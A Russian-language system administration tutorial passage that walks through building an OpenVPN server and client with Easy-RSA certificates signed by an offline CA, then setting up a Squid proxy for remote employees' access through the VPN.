Чтобы запуск сервера OpenVPN произошел успешно, необходимо создать каталоги, сертификаты и ключи, на которые есть ссылки в файлах openssl.cnf и server.conf, а также пользователя openvpn.

Создайте каталог для журнала сервера OpenVPN:

	# mkdir /var/log/openvpn/

Создайте каталог для конфигураций клиентов (пока не используем):

	# mkdir /etc/openvpn/ccd

Подготовка сертификата и ключа для сервера OpenVPN

Помимо openssl.cnf и openvpn.conf в каталоге /etc/openvpn/ нам потребуются файлы, перечисленные в таблице.

Прежде всего мы создадим приватный ключ и файл запроса на сертификат для сервера OpenVPN, а также получим по созданному запросу в удостоверяющем центре CA подписанный сертификат. В результате у нас появятся файлы server.crt и server.key. Далее займемся остальными файлами, перечисленными в табл. 3.

Чтобы создать для сервера OpenVPN запрос на сертификат и приватный ключ, нам потребуется установить на сервер OpenVPN программу Easy-RSA, аналогично тому, как мы это делали для удостоверяющего центра CA.

Установку Easy-RSA, генерацию приватного ключа сервера OpenVPN и запроса на сертификат мы будем делать от имени пользователя vpnoperator, не имеющего привилегий администратора. Добавьте этого пользователя перед началом работ:

	# adduser vpnoperator

Прежде всего, устанавливаем на сервере OpenVPN утилиту Easy-RSA и запускаем инициализацию инфраструктуры публичных ключей PKI:

	$ cd /home/vpnoperator
	$ wget https://github.com/OpenVPN/easy-rsa/archive/master.zip
	$ unzip master.zip
	$ cd /home/vpnoperator/easy-rsa-master/easyrsa3
	$ ./easyrsa init-pki

После успешной инициализации PKI в консоли появится сообщение:

	init-pki complete; you may now create a CA or requests.
	Your newly created PKI dir is: /home/vpnoperator/easy-rsa-master/easyrsa3/pki

Так как наш сервер OpenVPN не будет играть роль удостоверяющего центра, то после инициализации PKI мы не будем создавать CA командой build-ca.

Инфраструктура PKI будет создана в каталоге /home/vpnoperator/easy-rsa-master/easyrsa3/pki.

На следующем этапе получим запрос на сертификат и приватный ключ сервера OpenVPN:

	$ ./easyrsa gen-req server

Этой командой будет создан файл запроса server.req и приватного ключа server.key. В процессе генерации у вас будет запрошен пароль, а также имя Common Name для сервера OpenVPN:

	Generating a 2048 bit RSA private key
	...............................................................................................................+++
	....................................+++
	writing new private key to '/home/vpnoperator/easy-rsa-master/easyrsa3/pki/private/server.key'
	Enter PEM pass phrase:******
	Verifying - Enter PEM pass phrase:******
	-----
	You are about to be asked to enter information that will be incorporated
	into your certificate request.
	What you are about to enter is what is called a Distinguished Name or a DN.
	There are quite a few fields but you can leave some blank
	For some fields there will be a default value,
	If you enter '.', the field will be left blank.
	-----
	Common Name (eg: your user, host, or server name) [server]: vpn-server
	Keypair and certificate request completed. Your files are:
	req: /home/vpnoperator/easy-rsa-master/easyrsa3/pki/reqs/server.req
	key: /home/vpnoperator/easy-rsa-master/easyrsa3/pki/private/server.key

Первый из этих файлов нам нужно передать на сервер удостоверяющего центра CA, он не секретный. Второй файл — секретный, и он не должен покидать пределы сервера OpenVPN.

Как мы уже говорили, безопаснее всего передавать запрос на сертификат через USB флеш-диск, чтобы не подключать сервер CA к сети:

	# fdisk -l
	# mkdir /mnt/flash
	# mount -t vfat /dev/sdb1 /mnt/flash
	# cp /home/vpnoperator/easy-rsa-master/easyrsa3/pki/reqs/server.req /mnt/flash/server.req
	# umount /mnt/flash

Заметим, что при генерации приватного ключа был запрошен пароль. Этот пароль обеспечивает защиту, если приватный ключ будет скомпрометирован (украден злоумышленником). Пароль приватного ключа OpenVPN будет запрашиваться с консоли каждый раз при загрузке сервера и запуске OpenVPN.

Но что делать, если у вас нет доступа к консоли сервера OpenVPN или этот доступ затруднен? Такое может случиться, например, если вы создали сервер OpenVPN на базе VDS, арендованного у провайдера, не предоставляющего консольный доступ.

В этой ситуации можно создать приватный ключ без пароля с помощью опции nopass:

	$ ./easyrsa gen-req server nopass

Итак, вы создали приватный ключ сервера OpenVPN и запрос на сертификат.

Смонтируйте USB флэш-диск на хосте удостоверяющего центра CA, а затем импортируйте от имени пользователя ca запрос в PKI:

	# mount -t vfat /dev/sdb1 /mnt/flash
	# su ca
	$ cd /home/ca/easy-rsa-master/easyrsa3
	$ ./easyrsa import-req /mnt/flash/server.req vpn-server

Здесь мы указали сокращенное имя запроса на сертификат как "vpn-server". Это сокращенное имя будет использовано в дальнейших операциях с сертификатом.

После удачного импорта запроса вы увидите следующее сообщение:

	The request has been successfully imported with a short name of: vpn-server
	You may now use this name to perform signing operations on this request.

Если ошибок нет, подписываем запрос на получение сертификата:

	./easyrsa sign-req server vpn-server

В процессе создания подписанного сертификата будет запрошено подтверждение (ответьте на него "yes"), а также пароль приватного ключа удостоверяющего центра CA:

	You are about to sign the following certificate.
	Please check over the details shown below for accuracy. Note that this request has not been cryptographically verified. Please be sure it came from a trusted source or that you have verified the request checksum with the sender.
	Request subject, to be signed as a server certificate for 3650 days:

	subject=
	    commonName                = server
	Type the word 'yes' to continue, or any other input to abort.
	Confirm request details: yes
	Using configuration from /home/ca/easy-rsa-master/easyrsa3/openssl-1.0.cnf
	Enter pass phrase for /home/ca/easy-rsa-master/easyrsa3/pki/private/ca.key:******
	Check that the request matches the signature
	Signature ok
	The Subject's Distinguished Name is as follows
	commonName            :ASN.1 12:'server'
	Certificate is to be certified until Jun 26 15:48:25 2024 GMT (3650 days)
	Write out database with 1 new entries
	Data Base Updated
	Certificate created at: /home/ca/easy-rsa-master/easyrsa3/pki/issued/vpn-server.crt

Теперь сертификат получен, и он находится на сервере удостоверяющего центра в файле home/ca/easy-rsa-master/easyrsa3/pki/issued/vpn-server.crt. Этот файл нам нужно передать на сервер OpenVPN.

Скопируйте через USB флеш-диск файл сертификата /ca/easy-rsa-master/easyrsa3/pki/issued/vpn-server.crt с сервера удостоверяющего центра в файл на сервере OpenVPN /home/vpnoperator/vpn-server.crt:

	# cp /home/ca/easy-rsa-master/easyrsa3/pki/issued/vpn-server.crt /mnt/flash/

Затем смонтируйте USB диск на VDS OpenVPN и скопируйте файлы ca.crt сертификата CA, список отзыва сертификатов crl.pem и сертификат vpn-server.crt сервера OpenVPN в каталог /etc/openvpn:

	# mount -t vfat /dev/sdb1  /mnt/flash
	# cp /mnt/flash/ca.crt /etc/openvpn
	# cp /mnt/flash/crl.pem /etc/openvpn
	# cp /mnt/flash/vpn-server.crt /etc/openvpn
	# umount /mnt/flash

Файл приватного ключа скопируйте из каталога usr/home/vpnoperator/easy-rsa-master/easyrsa3/pki/private/ в каталог /etc/openvpn/:

	# cp /home/vpnoperator/easy-rsa-master/easyrsa3/pki/private/server.key /etc/openvpn

Генерация файла Диффи-Хелмана

Создайте ключи Диффи-Хелмана следующей командой:

	$ cd /home/vpnoperator/easy-rsa-master/easyrsa3
	$ ./easyrsa gen-dh

Команда gen-dh работает довольно долго. По завершении вы увидите сообщение:

DH parameters of size 2048 created at /home/vpnoperator/easy-rsa-master/easyrsa3/pki/dh.pem

Скопируйте файл/home/vpnoperator/easy-rsa-master/easyrsa3/pki/dh.pem в каталог /etc/openvpn/ :

	# cp /home/vpnoperator/easy-rsa-master/easyrsa3/pki/dh.pem /etc/openvpn

Создание статического ключа HMAC

Для создания ключа HMAC используйте команду openvpn с опциями --genkey и --secret:

	# cd /etc/openvpn
	# openvpn --genkey --secret ta.key

Запишите файл ta.key на USB диск:

	# cp /etc/openvpn/ta.key /mnt/flash

Ревизия файлов перед запуском OpenVPN

Итак, мы получили из удостоверяющего центра подписанный сертификат сервера OpenVPN, сертификат самого удостоверяющего центра CA, список отзыва сертификатов, создали файл Диффи-Хелмана и ключ HMAC.

Перед тем как запустить демон OpenVPN, нам нужны в каталоге /etc/openvpn/ для Linux или /usr/local/etc/openvpn/ для FreeBSD следующие файлы:

    openssl.cnf — файл конфигурации OpenSSL;
    server.conf — файл конфигурации сервера OpenVPN;
    ca.crt — cертификат удостоверяющего центра;
    vpn-server.crt — cертификат сервера OpenVPN;
    server.key — приватный ключ сервера OpenVPN, секретный;
    crl.pem — cписок отзыва сертификатов;
    dh.pem — файл Диффи-Хелмана для обеспечения защиты трафика от расшифровки;
    ta.key — ключ HMAC для дополнительной защиты от DoS-атак и флуда

Добавление пользователя openvpn

Добавьте непривилегированного пользователя и группу openvpn, от имени которого будет работать демон сервера OpenVPN:

	# adduser --system --no-create-home --home /nonexistent --disabled-login --group openvpn

Запуск демона OpenVPN

Запустите демон OpenVPN следующей командой:

	# /etc/init.d/openvpn start

Проверка результата запуска демона OpenVPN

Если сервер OpenVPN стартовал без ошибок, убедитесь с помощью команды ifconfig в том, что появился интерфейс TUN:

	# ifconfig 
	...
	tun0 Link encap:UNSPEC HWaddr 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00
	inet addr:10.15.0.1 P-t-P:10.15.0.1 Mask:255.255.255.0
	UP POINTOPOINT RUNNING NOARP MULTICAST MTU:1500 Metric:1
	RX packets:0 errors:0 dropped:0 overruns:0 frame:0
	TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
	collisions:0 txqueuelen:100
	RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)

Как мы уже говорили, использование TUN/TAP на арендованных VDS может потребовать дополнительной оплаты.

Если все хорошо, то в интерфейсе tun появился адрес IP 10.15.0.1. Это адрес сервера OpenVPN в нашем защищенном туннеле, заданный в файле конфигурации server.conf.

После проверки наличия интерфейса TUN убедитесь, что OpenVPN занял порт 1194:

	# netstat -ltupn | grep 1194

Если демон запустился нормально и порт 1194 занят сервером OpenVPN, можно переходить к установке клиента OpenVPN, описанной в следующем разделе статьи. При возникновении ошибок проанализируйте журнал /var/log/openvpn/openvpn-server.log.

При установке OpenVPN на Linux с новыми ядрами, начиная с 2.6, интерфейс TUN может не появится. При этом в логах появляется ошибка:

Loading kernel module for a network device with CAP_SYS_MODULE (deprecated). Use CAP_NET_ADMIN and alias netdev-tun instead

Чтобы избавиться от проблемы, добавьте в файл /etc/modprobe.d/dist.conf строку:

	alias netdev-tun tun

Если такого файла нет, его следует создать. После внесения изменений в файл /etc/modprobe.d/dist.conf перезагрузите ОС.

Степень детализации журнала зависит от параметра verb файла конфигурации server.conf. Параметр verb может принимать значения от 0 до 11, при этом 11 соответствует максимальной детализации, а значение по умолчанию равно 1. Если значение параметра verb равно 0, то в журнал будут записываться сообщения только о наиболее серьезных, фатальных ошибках.

Для отладки установите значение этого параметра, равным 5 или выше.

Установка и запуск ПО клиента OpenVPN

Процедура установки клиента OpenVPN аналогична процедуре установки сервера OpenVPN. Основные отличия в файлах конфигурации. Перед установкой не забудьте обновить пакеты и порты.

	# apt-get install openvpn

Подготовка файлов конфигурации

Файлы конфигурации, ключи и сертификаты должны находится в каталоге /etc/openvpn.

Далее подготовьте файлы конфигурации openssl.cnf и server.conf.

Файл openssl.cnf, определяющий конфигурацию OpenSSL, используйте точно такой же, как и для сервера OpenVPN. Что касается файла server.conf для клиента OpenVPN, то для начала возьмите его из нашей статьи.

Содержимое файла server.conf для клиента OpenVPN

Обратите внимание на параметр remote, в котором указан адрес IP сервера OpenVPN:

	remote 192.168.0.54 1194

Вы должны указать здесь реальный адрес IP вашего сервера OpenVPN, чтобы клиент OpenVPN смог к нему подключиться.

Создайте каталог для журнала клиента OpenVPN:

	# mkdir /var/log/openvpn/

Создание инфраструктуры публичных ключей PKI

Подключитесь к хосту клиента OpenVPN (в нашем случае это хост разработчика ПО) с правами обычного пользователя developer1 и скачайте утилиту Easy-RSA с сайта github.com/OpenVPN/easy-rsa.

	$ cd /home/developer1
	$ wget https://github.com/OpenVPN/easy-rsa/archive/master.zip
	$ unzip master.zip

Запустите инициализацию инфраструктуры публичных ключей PKI:

	$ cd /home/developer1/easy-rsa-master/easyrsa3
	$ ./easyrsa init-pki

В результате будет подготовлен каталог PKI:

	/home/developer1/easy-rsa-master/easyrsa3/pki

Подготовка сертификата и ключа для клиента OpenVPN

Создайте запрос на сертификат и приватный ключ рабочей станции разработчика developer1:

	$ ./easyrsa gen-req client nopass

Вам потребуется ввести имя Common Name для создания запроса на сертификат и приватного ключа рабочей станции:

	Generating a 2048 bit RSA private key
	..............................................................................................+sftp++
	................................+++
	writing new private key to '/home/developer1/easy-rsa-master/easyrsa3/pki/private/client.key'
	-----
	You are about to be asked to enter information that will be incorporated into your certificate request.
	What you are about to enter is what is called a Distinguished Name or a DN.
	There are quite a few fields but you can leave some blank
	For some fields there will be a default value,
	If you enter '.', the field will be left blank.
	-----
	Common Name (eg: your user, host, or server name) [client]:developer1
	Keypair and certificate request completed. Your files are:
	req: /home/developer1/easy-rsa-master/easyrsa3/pki/reqs/client.req
	key: /home/developer1/easy-rsa-master/easyrsa3/pki/private/client.key

Если к защите данных предъявляются повышенные требования, создавайте приватный ключ с паролем, без использования опции nopass:

	$ ./easyrsa gen-req client

В этом случае, однако, пароль приватного ключа будет запрашиваться каждый раз при загрузке хоста и запуске клиента OpenVPN.

Теперь вам потребуется перенести созданный запрос сертификата /home/developer1/easy-rsa-master/easyrsa3/pki/reqs/client.req на хост удостоверяющего центра CA и записать в файл /home/ca/client.req.

Сделайте это с помощью USB флэш-диска, если хост CA не подключен к сети.

Запишите запрос на USB диск:

	# mkdir /mnt/flash
	# mount -t vfat /dev/sdb1  /mnt/flash
	# cp /home/developer1/easy-rsa-master/easyrsa3/pki/reqs/client.req /mnt/flash
	# umount /mnt/flash

Импортируйте запрос в PKI, используя в качестве короткого имени developer1:

	$ cd /home/ca/easy-rsa-master/easyrsa3
	$ ./easyrsa import-req /mnt/flash/client.req developer1

Далее подпишите запрос на получение сертификата:

	$ ./easyrsa sign-req client developer1

После ввода подтверждения и пароля приватного ключа CA будет создан сертификат:

	/home/ca/easy-rsa-master/easyrsa3/pki/issued/developer1.crt

Запишите файл developer1.crt на USB флэш-диск, чтобы перенести его на хост клиента OpenVPN.

	# cp /home/ca/easy-rsa-master/easyrsa3/pki/issued/developer1.crt /mnt/flash
	# umount /mnt/flash

Скопируйте файл сертификата в каталог /etc/openvpn:

	# mount -t vfat /dev/sdb1  /mnt/flash
	# cp /mnt/flash/developer1.crt /etc/openvpn

Итак, теперь у нас есть файл приватного ключа рабочей станции client.key и файл сертификата developer1.crt, подписанного удостоверяющим центром CA.

Скопируйте файл ключа в каталог /etc/openvpn:

	# cp /home/developer1/easy-rsa-master/easyrsa3/pki/private/client.key /etc/openvpn

Скопируйте в каталог /etc/openvpn клиента VPN следующие файлы, подготовленные на USB диске:

	# cp /mnt/flash/ca.crt /etc/openvpn
	# cp /mnt/flash/ta.key /etc/openvpn

Напомним, что файлы ca.crt и crl.pem были созданы на хосте удостоверяющего центра CA, а файл ta.key — на хосте сервера OpenVPN.

### Запуск клиента OpenVPN

Запустите демон следующей командой:

	# /etc/init.d/openvpn start

Если возникла проблема с запуском клиента, проверьте содержимое журнала /var/log/openvpn/openvpn-client.log

В том случае, когда демон клиента запустился без ошибок, проверьте наличие интерфейса TUN, аналогично тому, как мы это делали при запуске демона сервера OpenVPN.

	# ifconfig
	...
	 tun0 Link encap:UNSPEC HWaddr 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00
	 inet addr:10.15.0.2 P-t-P:10.15.0.2 Mask:255.255.255.0
	 UP POINTOPOINT RUNNING NOARP MULTICAST MTU:1500 Metric:1
	 RX packets:0 errors:0 dropped:0 overruns:0 frame:0
	 TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
	 collisions:0 txqueuelen:100
	 RX bytes:0 (0.0 B) TX bytes:0 (0.0 B)

Проверьте также, что сервер OpenVPN откликается на команду ping по адресу 10.15.0.1:

	# ping 10.15.0.1

### Установка прокси-сервера Squid

Итак, у нас есть сеть VPN, и сотрудники, работающие удаленно, могут подключаться к VDS сервера OpenVPN с помощью безопасного туннеля. Теперь нам нужно организовать доступ сотрудников к защищенным ресурсам компании через прокси-сервер, установленный на сервер OpenVPN. В этом случае рабочие станции сотрудников с динамическими адресами IP смогут подключаться к ресурсам компании, для которых разрешен доступ с фиксированного адреса IP сервера OpenVPN.

В качестве прокси-сервера мы выбрали ПО с открытым исходным кодом Squid, который часто применяется, в частности, для кэширования Web-страниц в высоконагруженных проектах. Нам, однако, сейчас пригодится только его функция проксирования.

Установку Squid проще всего выполнить из пакета:

	# apt-get install squid3

После завершения установки в каталоге /etc/squid3 будет создан файл конфигурации squid.conf внушительных размеров, который необходимо отредактировать. Впрочем, в нашем случае требуется внести лишь очень небольшие изменения.

Прежде всего, отыщите в файле squid.conf следующую строку:

	http_access deny all

Перед этой строкой добавьте:

	acl allowed_hosts src 10.15.0.0/24
	http_access allow allowed_hosts
	http_access deny manager

Первая из этих строк разрешает доступ к Squid из вашей сети OpenVPN.

Если требуется проксировать доступ к каким-либо нестандартным портам SSL, добавьте их к строке:

	acl SSL_ports port 443

Например, здесь мы добавили нестандартный порт 7195:

	acl SSL_ports port 443 7195

Убедитесь, что в файле squid.conf разрешен доступ из сети 10.0.0.0/8. По умолчанию там есть такая строка:

	acl localnet src 10.0.0.0/8 # RFC1918 possible internal network

После завершения редактирования файла конфигурации перезапустите Squid:

	# /etc/init.d/squid3 restart

Журналы Squid помогут при отладке, если что-то пойдет не так. Они находятся в каталоге /var/log/squid3. Это файлы access.log и cache.log.

После установки и запуска Squid пропишите в браузере прокси 10.15.0.1, порт 3128. Если все настроено правильно, браузер будет ходить в Интернет через ваш сервер OpenVPN. В этом можно убедиться, например, посетив сайт 2ip.ru, myip.ru или аналогичный, показывающий IP-адрес посетителя.

